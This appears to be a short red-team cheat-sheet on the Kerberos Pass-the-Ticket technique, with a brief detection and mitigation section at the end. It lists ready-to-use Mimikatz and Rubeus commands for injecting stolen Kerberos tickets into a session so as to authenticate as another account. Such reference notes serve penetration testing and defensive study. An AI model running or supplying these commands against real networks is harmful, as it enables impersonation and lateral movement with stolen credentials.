 # Pass-the-Ticket (PtT)
**What:** Inject/exploit Kerberos tickets (TGT/TGS) into a session to authenticate as another account without credential or hash.  
**Privileges needed:** Access to a valid ticket blob (stolen/exported ticket).  
**Common tools:** Mimikatz, Rubeus.

--- 
## Mimikatz — import ticket file (.kirbi or base64)
```bash
# in mimikatz (elevated) 
privilege::debug kerberos::ptt C:\path\to\ticket.kirbi    # or paste base64: kerberos::ptt /ticket:<base64-string>`
```
## Rubeus (ptt)

```bash
# ptt using a file 
Rubeus.exe ptt /ticket:ticket.kirbi 

# ptt using base64 inline 
Rubeus.exe ptt /ticket:<base64_ticket>
```

--- 

## **Detection / Mitigation**

- Detect use by monitoring ticket lifetimes, unusual service access patterns, suspicious host-to-host Kerberos activity.
    
- Mitigate by restricting ticket exposure, using short ticket lifetimes, and monitoring for `TicketGrantingTicket` anomalies.
    
